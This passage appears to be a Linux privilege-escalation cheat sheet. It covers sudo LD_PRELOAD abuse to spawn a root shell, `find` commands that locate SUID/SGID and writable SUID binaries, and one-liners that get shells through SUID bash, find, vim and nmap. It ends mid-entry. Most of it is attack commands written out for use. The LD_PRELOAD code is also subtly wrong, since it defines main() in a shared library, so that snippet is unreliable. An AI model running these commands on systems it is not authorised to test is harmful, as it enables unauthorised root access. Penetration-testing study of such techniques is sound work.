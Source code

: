 #### Exploiting `LD_PRELOAD`
- **Abuse `LD_PRELOAD` with `sudo`** : Forces the program to run the`.so` file as root.
	```bash
	echo 'int main() { setuid(0); system("/bin/sh"); }' > /tmp/exploit.c
	gcc -o /tmp/exploit.so -shared -fPIC /tmp/exploit.c
	sudo LD_PRELOAD=/tmp/exploit.so <command>
	```

# SUID and SGID Binaries

SUID/SGID binaries execute with the privileges of the file's owner (usually root), making them prime targets for exploitation.

- **[GTFO Bins](https://gtfobins.github.io/)**

#### Finding SUID/SGID Binaries
- **Lists all SUID binaries:** Executed with the owner's privileges, often root.
	```bash
	find / -perm /4000 2>/dev/null
	```
- **Lists all SGID binaries:** Executed with the group’s privileges.
	```bash
	find / -perm /2000 2>/dev/null
	```

#### Find SUID Binaries Owned by Root
- **Find SUID Binaries Owned by Root:**
	```bash
	find / -user root -perm -4000 -exec ls -ldb {} \;
	```

#### Writable SUID Binaries
- **Finds SUID binaries writable by others:**
	```bash
	find / -perm -4007 2>/dev/null
	```

#### Analyzing SUID/SGID Binaries
- **Verify if the binary has SUID/SGID bit set:** 
	```bash
	ls -l /path/to/binary
	```
- **Inspect binaries for hardcoded paths, credentials, or function calls that can be exploited:**
	```bash
	strings /path/to/binary
	```

#### Common SUID Binaries
- **Exploit SUID `bash`:**
	```bash
	./bash -p
	```
- **Exploit SUID `find`:**
	```bash
	find . -exec /bin/sh -p \; -quit
	```
- **Exploit SUID `vim`:**
	```bash
	vim -c ':!sh'
	```
- **Exploit SUID `nmap`:**
	```bash
	nmap --interactive
